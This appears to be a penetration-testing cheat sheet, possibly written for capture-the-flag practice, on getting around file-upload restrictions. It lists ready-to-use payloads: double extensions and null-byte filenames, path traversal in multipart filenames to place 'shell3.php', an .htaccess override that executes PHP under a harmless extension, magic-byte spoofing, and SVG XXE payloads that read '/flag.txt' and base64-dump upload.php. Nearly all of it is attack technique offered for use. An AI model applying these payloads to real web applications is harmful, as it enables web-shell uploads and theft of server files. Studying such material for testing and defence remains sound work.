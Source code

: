 https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst

https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt

##### Double extension 
`.jpg.php`

##### Reverse Double Extension
`.php.jpg`

##### Add trailing characters. 
Some components will strip or ignore trailing whitespaces, dots, and suchlike: `exploit.php.`

##### URL encoding
%

##### Null byte
Adding `%00` to http requests creates miracles.
`exploit.php%00.jpg`
then open `/uploads/exploit.php%00.jpg` 
`%00` ends parsing on it and downloads `exploit.php`

##### Low level functions of C/C++
`exploit.asp;.jpg` or `exploit.asp%00.jpg`

###### Try using multibyte unicode characters,
Sequences like `xC0 x2E`, `xC4 xAE` or `xC0 xAE` may be translated to `x2E`

##### If extensions is stripped, double it
`exploit.p.phphp`

##### Upload to different directory
```
Content-Disposition: form-data; name="avatar"; filename="../shell3.php"
```

Trying to bypass filters:
```
filename="..%2fshell3.php"
```

then open `avatars/../shell3.php`

##### Replace .htaccess if some extensions are not allowed

```
AddType application/x-httpd-php .nope
```

##### Character Injection

- `%20`
- `%0a`
- `%00`
- `%0d0a`
- `/`
- `.\`
- `.`
- `…`
- `:`

Content-type:

in the zero bytes of file:

`GIF8`
`PNG`

https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt

Mime types:

[File Signature](https://en.wikipedia.org/wiki/List_of_file_signatures) or [Magic Bytes](https://web.archive.org/web/20240522030920/https://opensource.apple.com/source/file/file-23/file/magic/magic.mime).

SVG/XML:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "/flag.txt"> ]>
<svg>&xxe;</svg>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```